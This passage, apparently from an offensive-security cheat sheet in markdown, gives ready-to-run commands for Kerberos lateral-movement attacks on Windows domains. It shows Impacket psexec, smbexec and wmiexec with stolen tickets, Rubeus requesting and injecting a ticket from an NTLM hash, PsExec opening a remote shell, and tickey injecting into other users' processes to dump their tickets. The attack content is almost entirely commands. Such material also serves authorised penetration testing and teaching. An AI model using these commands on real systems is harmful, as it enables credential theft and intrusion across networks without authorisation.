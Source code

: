 ```bash
python3 psexec.py $domain/$user@$host -k -no-pass
python3 smbexec.py $domain/$user@$host -k -no-pass
python3 wmiexec.py $domain/$user@$host -k -no-pass
```

### Using [Rubeus](https://github.com/GhostPack/Rubeus) with asktgt module and [PsExec](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec)

```bash
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:$domain /user:$user /rc4:$ntlm_hash /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\$host cmd
```

## Pass The Ticket

### From Linux

Check type and location of tickets:

```bash
grep $ccache_name /etc/krb5.conf
```

If none return, default is `/tmp/krb5cc_%{uid}`.

For `KEYRING` tickets, you can use [tickey](https://github.com/TarlogicSecurity/tickey) to retrieve them.

```bash
# Will attempt injecting into other user processes to dump current user tickets
# For maximum effect, copy tickey to a folder reachable by all users
cp tickey /tmp/tickey
/tmp/tickey -i
```

#### Using [Impacket](https://github.com/SecureAuthCorp/impacket)

```bash
# Set the ticket for impacket use
export KRB5CCNAME=<TGT_ccache_file_path>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

#### Convert tickets between Linux/Windows format with [ticket\_converter.py](https://github.com/Zer1t0/ticket\_converter)

